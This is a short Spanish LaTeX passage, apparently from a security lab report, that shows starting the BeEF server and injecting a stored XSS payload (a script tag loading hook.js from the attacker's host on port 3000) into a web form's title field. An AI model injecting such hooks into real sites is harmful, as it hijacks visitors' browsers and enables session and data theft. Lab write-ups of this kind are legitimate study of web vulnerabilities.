 \documentclass{report}
\begin{document}
                Para empezar, vamos a iniciar el servidor de BeEF.
                \begin{center}
                    \texttt{sudo beef-xss}
                \end{center}
                \begin{figure}[H]
                    \centering
                    \includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/3.1.png}
                    \caption{Servidor de BeEF}
                \end{figure}
                \clearpage
                Una vez iniciado, vamos a crear un evento en la pagina web y vamos a inyectar el siguiente codigo en el campo 'Titulo':
                \begin{center}
                    \texttt{<script src="http://IP:3000/hook.js"></script>}
                \end{center}
                Siendo IP la IP de la maquina donde esta corriendo el servidor de BeEF, en mi caso, 192.168.1.69.
                \begin{figure}[H]
                    \centering
                    \includegraphics[width=1\textwidth]{./img/vulnerabilidades/2.2/3.2.png}
                    \caption{Inyección de codigo}
                \end{figure}
\end{document}
